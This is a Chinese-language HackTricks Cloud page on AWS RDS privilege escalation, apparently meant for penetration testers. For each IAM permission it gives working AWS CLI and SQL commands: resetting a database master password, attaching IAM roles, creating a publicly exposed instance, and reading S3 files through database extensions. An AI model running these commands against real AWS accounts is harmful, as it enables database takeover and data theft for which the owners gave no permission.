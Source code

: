 # AWS - RDS Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## RDS - 关系数据库服务

有关 RDS 的更多信息，请查看：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

拥有该权限的攻击者可以**修改主用户的密码**，以及数据库内的登录：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
您需要能够**联系数据库**（它们通常仅在内部网络中可访问）。
{% endhint %}

**潜在影响：** 在数据库中查找敏感信息。

### rds-db:connect

根据[**文档**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)，具有此权限的用户可以连接到数据库实例。

### 滥用 RDS 角色 IAM 权限

#### Postgresql (Aurora)

{% hint style="success" %}
如果运行**`SELECT datname FROM pg_database;`**您发现一个名为**`rdsadmin`**的数据库，您就知道您在一个**AWS postgresql 数据库**中。
{% endhint %}

首先，您可以检查此数据库是否已用于访问任何其他 AWS 服务。您可以通过查看已安装的扩展来检查这一点：
```sql
SELECT * FROM pg_extension;
```
如果你发现类似 **`aws_s3`** 的东西，你可以假设这个数据库对 S3 **有某种访问权限**（还有其他扩展，如 **`aws_ml`** 和 **`aws_lambda`**）。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以在 **`AssociatedRoles`** 字段中查看 **集群是否附加了任何 IAM 角色**。如果有，你可以假设这个数据库是 **为访问其他 AWS 服务而准备的**。根据 **角色的名称**（或者如果你能获取 **角色的权限**），你可以 **猜测** 数据库具有的额外访问权限。

现在，要 **读取存储桶中的文件**，你需要知道完整路径。你可以用以下命令读取它：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
如果你拥有**原始 AWS 凭证**，你也可以使用它们访问 S3 数据：
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **不需要更改任何参数组变量** 就可以访问 S3。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
在 mysql 中，如果你运行查询 **`SELECT User, Host FROM mysql.user;`** 并且有一个用户叫 **`rdsadmin`**，你可以假设你在一个 **AWS RDS mysql 数据库** 中。
{% endhint %}

在 mysql 中运行 **`show variables;`**，如果变量如 **`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** 有值，你可以假设数据库已准备好访问 S3 数据。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以检查集群是否有任何 **关联角色**，这通常意味着可以访问 AWS 服务。

现在，要 **读取存储桶中的文件**，你需要知道完整路径。你可以用以下命令读取它：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

拥有权限 `rds:AddRoleToDBCluster` 和 `iam:PassRole` 的攻击者可以 **将指定角色添加到现有的 RDS 实例**。这可能允许攻击者 **访问敏感数据** 或修改实例中的数据。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在影响**：访问敏感数据或对RDS实例中的数据进行未经授权的修改。\
请注意，一些数据库需要额外的配置，例如Mysql，需要在参数组中指定角色ARN。

### `rds:CreateDBInstance`

仅凭此权限，攻击者可以在已经存在并附加了**IAM角色**的集群中创建一个**新实例**。他将无法更改主用户密码，但他可能能够将新数据库实例暴露于互联网：
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 测试
{% endhint %}

拥有权限 `rds:CreateDBInstance` 和 `iam:PassRole` 的攻击者可以 **创建一个附加指定角色的新 RDS 实例**。攻击者随后可能 **访问敏感数据** 或修改实例中的数据。

{% hint style="warning" %}
附加角色/实例配置文件的一些要求（来自 [**这里**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)）：

* 配置文件必须在您的账户中存在。
* 配置文件必须有一个 IAM 角色，Amazon EC2 有权限假设。
* 实例配置文件名称和关联的 IAM 角色名称必须以前缀 `AWSRDSCustom` 开头。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在影响**：访问敏感数据或对RDS实例中的数据进行未经授权的修改。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

拥有权限 `rds:AddRoleToDBInstance` 和 `iam:PassRole` 的攻击者可以 **将指定角色添加到现有的RDS实例**。这可能允许攻击者 **访问敏感数据** 或修改实例中的数据。

{% hint style="warning" %}
DB实例必须位于集群之外
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在影响**：访问RDS实例中的敏感数据或对数据的未经授权的修改。

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家(ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家(GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}
